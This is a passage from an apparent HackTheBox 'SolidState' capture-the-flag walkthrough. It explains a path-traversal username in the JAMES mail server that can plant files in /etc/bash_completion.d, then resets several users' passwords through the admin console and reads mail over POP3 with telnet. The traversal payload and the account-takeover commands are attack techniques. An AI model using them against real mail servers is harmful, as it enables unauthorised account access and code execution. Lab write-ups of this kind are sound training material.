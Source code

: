 Here, I could se a couple of users and I guess the `../../../../../../../../etc/bash_completion.d` user would also be added once we run the exploit.

After a bit of research we find that the vulnerability is in the `adduser` functionality. When a new user is added, the server creates a new subdirectory to store incoming and outgoing emails for that user. However, the username field is not properly validated. Therefore, when we’re creating a user with the username `../../../../../../../../etc/bash_completion.d`, any mail that gets sent to that user will be stored in that directory path.

Why is that dangerous? Long story short, anything under the directory /etc/bash_completion.d is automatically loaded by Bash for all users! I used this [blog](https://iridakos.com/programming/2018/03/01/bash-programmable-completion-tutorial) to understand the impact of this vulnerability.
 
Now, from out prev connection with netcat and port `4555`, we can create a new user and then access their accounts.
 
Since, there's a user with  username as `mailadmin`, I'll check it out first.

```
setpassword mailadmin password
Password for mailadmin reset
```
 
Now that we reset the password for the mailadmin account, let’s access `mailadmin's` email using telnet.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/SolidState]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
USER mailadmin
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
+OK
LIST
-ERR
PASS password
+OK Welcome mailadmin
LIST    
+OK 0 0
.
```

There was no mails in `mailadmin's` mail address. So, next, I tried resetting other user's passwords.

```
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
```
